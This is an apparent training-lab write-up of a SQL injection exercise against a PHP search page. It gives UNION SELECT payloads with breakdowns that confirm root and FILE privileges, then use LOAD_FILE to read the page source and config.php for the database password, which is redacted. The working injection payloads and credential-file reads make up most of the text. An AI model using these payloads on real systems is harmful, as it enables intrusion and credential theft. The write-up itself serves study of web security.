




## Exercises

### Question 1 — We see in the above PHP code that '$conn' is not defined, so it must be imported using the PHP include command. Check the imported page to obtain the database password.

The target was `154.57.164.70:32761`, the same port search page used in previous exercises.

#### Confirming the Current User

```sql
' UNION SELECT 1, user(), 3, 4 -- -
```

**Breakdown:**

- `'` closes the quote the application wraps around the search parameter, ending it early
- `UNION SELECT 1, user(), 3, 4` unions the original query with a four-column `SELECT`, placing `user()` in the second column in place of a junk number
- `-- -` is a comment, with the trailing dash showing the required space after the two dashes, discarding the rest of the original query


The current database user is `root`.

#### Checking for Superuser Privileges

```sql
' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

**Breakdown:**

- `'` closes the quote and ends the search parameter early
- `UNION SELECT 1, super_priv, 3, 4 FROM mysql.user` unions the original query with a four-column `SELECT`, reading `super_priv` into the second column from the `mysql.user` table
- `-- -` comments out the rest of the original query


The result `Y` confirmed superuser privileges for the `root` user.

#### Dumping All Privileges

```sql
' UNION SELECT 1, grantee, privilege_type, 4 FROM INFORMATION_SCHEMA.USER_PRIVILEGES-- -
```

**Breakdown:**

- `'` closes the quote and ends the search parameter early
- `UNION SELECT 1, grantee, privilege_type, 4 FROM INFORMATION_SCHEMA.USER_PRIVILEGES` unions the original query with a four-column `SELECT`, reading `grantee` into the second column and `privilege_type` into the third
- `-- -` comments out the rest of the original query



The `FILE` privilege was present in the list, confirming file-read access. 

#### Reading the Page's Own Source Code

```sql
' UNION SELECT 1, LOAD_FILE('/var/www/html/search.php'), 3, 4-- -
```

**Breakdown:**

- `'` closes the quote and ends the search parameter early
- `UNION SELECT 1, LOAD_FILE('/var/www/html/search.php'), 3, 4` unions the original query with a four-column `SELECT`, placing `LOAD_FILE('/var/www/html/search.php')` in the second column, following the default Apache webroot path. 
- `-- -` comments out the rest of the original query

The browser rendered the returned PHP source as HTML rather than displaying it as text. Viewing the page's own HTML source with `Ctrl + U` revealed the underlying PHP code.





The source code showed an `include "config.php";` line near the top of the file, before the HTML page structure began. This confirmed the hint: `$conn` is created elsewhere and brought in through this include, so the database credentials were expected to live in `config.php`.

#### Reading the Included Configuration File

```sql
' UNION SELECT 1, LOAD_FILE('/var/www/html/config.php'), 3, 4-- -
```

**Breakdown:**

- `'` closes the quote and ends the search parameter early
- `UNION SELECT 1, LOAD_FILE('/var/www/html/config.php'), 3, 4` unions the original query with a four-column `SELECT`, placing `LOAD_FILE('/var/www/html/config.php')` in the second column. The path uses the same webroot as `search.php`, with the filename taken from the `include` statement found in the previous step
- `-- -` comments out the rest of the original query



The returned content was readable directly this time, rather than needing the page source, and showed the database connection array:

```php
'localhost', 'DB_USERNAME'=>'root', 'DB_PASSWORD'=>'—REDACTED—', 'DB_DATABASE'=>'ilfreight' ); 
$conn = mysqli_connect($config['DB_HOST'], $config['DB_USERNAME'], $config['DB_PASSWORD'], $config['DB_DATABASE']); 
if (mysqli_connect_errno($conn)) { echo "Failed connecting. " . mysqli_connect_error() . "
"; } ?> 
```

**Breakdown:**

- `'localhost', 'DB_USERNAME'=>'root', 'DB_PASSWORD'=>'—REDACTED—', 'DB_DATABASE'=>'ilfreight'` is the tail end of a PHP associative array named `$config`, holding the connection details: host `localhost`, username `root`, password `—REDACTED—`, and database `ilfreight`
- `$conn = mysqli_connect($config['DB_HOST'], $config['DB_USERNAME'], $config['DB_PASSWORD'], $config['DB_DATABASE']);` creates the connection object using the values from `$config`. 
- `if (mysqli_connect_errno($conn)) { ... }` checks whether the connection attempt produced an error, and prints a failure message if so

This confirmed `$conn`, referenced but undefined in `search.php`, is created in `config.php` using these credentials, and the password stored there is `—REDACTED—`.

**Answer:** `—REDACTED—`